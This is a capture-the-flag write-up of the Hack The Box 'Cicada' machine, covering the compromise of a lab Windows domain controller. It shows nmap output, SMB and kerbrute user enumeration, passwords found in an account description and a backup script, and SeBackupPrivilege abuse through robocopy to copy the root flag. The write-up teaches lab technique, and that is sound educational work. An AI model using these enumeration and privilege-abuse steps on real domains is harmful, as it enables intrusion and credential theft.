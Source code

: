 # Cicada Write-Up - HTB

Starting with nmap scan to discover active ports:

```bash
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-04-23 00:52:29Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
|_ssl-date: TLS randomness does not represent time
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
|_ssl-date: TLS randomness does not represent time
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
53185/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: CICADA-DC; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: 6h59m59s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-04-23T00:53:19
|_  start_date: N/A
```

We have a DC ahead.\
SMB and LDAP are primary enumeration targets.

SMB:\


<figure><img src="../.gitbook/assets/image (89).png" alt=""><figcaption></figcaption></figure>

\
We have 2 interesting shares: DEV and HR.

<figure><img src="../.gitbook/assets/image (90).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

Let's see what's inside the file!

<figure><img src="../.gitbook/assets/image (92).png" alt=""><figcaption></figcaption></figure>

We have password piece, now we miss username piece of puzzle.\
I decided to run kerbrute to enumerate the active usernames in the domain:`kerbrute userenum --dc cicada.htb -d cicada.htb /usr/share/seclists/Usernames/xato-net-10-million-usernames.tx`&#x20;

Unfortunately, this doesn't give us too much:

<figure><img src="../.gitbook/assets/image (93).png" alt=""><figcaption></figcaption></figure>

I now start thinking about the password itself... This string looks like a cipher! Given the box name is Cicada... Hmm, I love this.

So we have: `Cicada$M6Corpb+QLp#nZp!8`

It's interesting, this is a combination real-meaning words and obfuscated/random words. Let's take M6 for example, which could stand for March 6, or Marketing 6 Corp b. Hmm.&#x20;

**Cicada 3301 Tradecraft Considerations**:

*   **Null Cipher**: Extract uppercase letters from obfuscated core:

    ```
    L Z → Position 12 & 26 → 12+26=38 → 38th ASCII = '&' (Not useful)
    ```
*   **Base58 Encoding** (BTC address format):

    ```
    spBLgnbZp → Decodes to raw bytes: 1A 9C F3 (Invalid UTF-8)
    ```
*   **Vigenère Cipher** (Key="CICADA"):

    ```
    Decrypted: 8jW!q2sD → Doesn't resolve
    ```

I realized I am running in circles, it can't be cipher. I reverted to something easier in the meantime, more user enumeration. This time through:

<figure><img src="../.gitbook/assets/image (94).png" alt=""><figcaption></figcaption></figure>

Made a list:

```
CICADA-DC$
john.smoulder
sarah.dantelia
michael.wrightson
david.orelious
emily.oscars
```

Output returned:

<figure><img src="../.gitbook/assets/image (95).png" alt=""><figcaption></figcaption></figure>

I tried running evil-winrm, but it seems we are not allowed to connect with our user. Maybe the company didn't apply all the rights yet :drum:

Tried running bloodhound to see what we have, but I realized there must be a chain here... Psexec didn't work neither.

So, I was thinking of doing some thorough rpcqueries with michael's creds.

```bash
rpcclient $> queryuser david.orelious
        User Name   :   david.orelious
        Full Name   :
        Home Drive  :
        Dir Drive   :
        Profile Path:
        Logon Script:
        Description :   Just in case I forget my password is aRt$Lp#7t*VQ!3
        Workstations:
        Comment     :
        Remote Dial :
        Logon Time               :      Fri, 15 Mar 2024 08:32:22 EET
        Logoff Time              :      Thu, 01 Jan 1970 02:00:00 EET
        Kickoff Time             :      Thu, 14 Sep 30828 05:48:05 EEST
        Password last set Time   :      Thu, 14 Mar 2024 14:17:30 EET
        Password can change Time :      Fri, 15 Mar 2024 14:17:30 EET
        Password must change Time:      Thu, 14 Sep 30828 05:48:05 EEST
        unknown_2[0..31]...
        user_rid :      0x454
        group_rid:      0x201
        acb_info :      0x00000210
        fields_present: 0x00ffffff
        logon_divs:     168
        bad_password_count:     0x00000000
        logon_count:    0x00000000
        padding1[0..7]...
        logon_hrs[0..21]...

```

Just in case I don't forget his password!

<figure><img src="../.gitbook/assets/image (96).png" alt=""><figcaption></figcaption></figure>

Crispy!

The file contains:

```powershell
$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"
```

A new combination found: emily.oscars - Q!3@Lp#M6b\*7t\*Vt

Cicada 3301, footholding: completed! -— We are about to be recruited by a top-secret organization now. Prepare.

<figure><img src="../.gitbook/assets/image (97).png" alt=""><figcaption></figcaption></figure>

Let's first check our local privileges by running whoami /all:

```markup
USER INFORMATION
----------------

User Name           SID
=================== =============================================
cicada\emily.oscars S-1-5-21-917908876-1423158569-3159038727-1601


GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Backup Operators                   Alias            S-1-5-32-551 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access    Alias            S-1-5-32-574 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

SeBackupPrivilege is on. Game is over.

Really easy stuff here, we won't spend time trying to dump NTDS.dit or making a shadow volume. We will directly "backup" the root flag :)

```
robocopy c:\users\administrator\desktop "C:\users\public\downloads" root.txt /mt /z /b
```

<figure><img src="../.gitbook/assets/image (98).png" alt=""><figcaption></figcaption></figure>

Cool machine. Easy af.
